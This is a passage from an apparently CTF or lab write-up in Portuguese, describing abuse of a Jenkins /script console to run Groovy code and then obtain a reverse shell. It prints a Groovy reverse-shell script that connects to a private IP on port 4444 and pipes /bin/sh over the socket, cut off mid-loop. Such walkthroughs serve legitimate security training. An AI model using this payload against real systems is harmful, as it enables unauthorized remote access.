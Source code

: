 Após explorar a aplicação e pesquisar mais sobre o Jenkins, descobri que existe um endpoint acessível em `/script`, que permite a execução de scripts Groovy diretamente no servidor. Isso é extremamente útil, pois ao testar com o comando `id`, obtive o ID do usuário dentro do contêiner Docker em que o Jenkins está sendo executado. Com essa confirmação de execução remota, o próximo passo é buscar obter uma shell reversa.
![](attachment/b93f367e901746dd9e65b6fa92878822.png)

Como a aplicação é desenvolvida em Java, basta utilizar uma shell reversa escrita na própria linguagem para obter acesso ao sistema.

```
String host="10.13.72.32";
int port=4444;
String[] cmd = ["/bin/sh", "-i"] as String[];

Socket s=new Socket(host,port);
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();

InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();

while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
```